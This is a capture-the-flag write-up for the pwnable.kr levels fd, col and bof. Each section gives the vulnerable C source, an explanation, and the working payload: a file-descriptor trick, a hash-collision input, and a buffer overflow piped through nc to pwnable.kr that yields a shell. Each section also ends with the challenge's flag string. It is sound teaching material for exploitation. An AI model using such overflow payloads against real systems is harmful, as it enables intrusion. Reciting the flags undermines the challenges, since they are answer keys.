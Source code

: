 # fd
>Mommy! what is a file descriptor in Linux?<br><br>* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link: https://www.youtube.com/watch?v=blAxTfcW9VU<br><br>`ssh fd@pwnable.kr -p2222 (pw:guest)`

fd.c:
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN" press enter and get the flag.

flag: mommy! I think I know what a file descriptor is!!

col

col.c:
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: ./col `python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'`

flag: daddy! I just managed to create a hash collision :)

bof

bof.c:
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

Classic buffer overflow question. In the assembly we see that $ebp-0x2c is set for the buffer, and it checks if $ebp + 0x8 == 0xcafebabe. So what we do is we set 52 A's, then have our 0xcafebabe. We accomplish this with the following payload: python -c "print 'A'*52+'\xbe\xba\xfe\xca'". However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing when at the end of the func function. So we modify our payload: (python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat). We run (python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000 and then run ls, see the flag file, and run cat flag, and get our flag.

flag: daddy, I just pwned a buFFer :)





